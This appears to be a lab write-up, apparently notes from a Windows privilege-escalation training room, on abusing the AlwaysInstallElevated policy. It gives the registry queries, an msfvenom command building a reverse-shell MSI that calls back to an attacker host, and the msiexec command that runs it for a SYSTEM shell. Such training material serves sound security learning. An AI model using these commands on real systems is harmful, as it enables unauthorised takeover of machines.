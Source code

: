 Query the registry for AlwaysInstallElevated keys:

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
````

![[Pasted image 20240528193026.png]]

Note that both keys are set to 1 (0x1).

On Kali, generate a reverse shell Windows Installer (reverse.msi) using msfvenom. Update the LHOST IP address accordingly:  

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
```

![[Pasted image 20240528193130.png]]

Transfer the reverse.msi file to the C:\PrivEsc directory on Windows (use the SMB server method from earlier).

![[Pasted image 20240528193425.png]]


![[Pasted image 20240528193535.png]]


Start a listener on Kali and then run the installer to trigger a reverse shell running with SYSTEM privileges:  

```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

![[Pasted image 20240528193737.png]]

Answer the questions below

Read and follow along with the above.
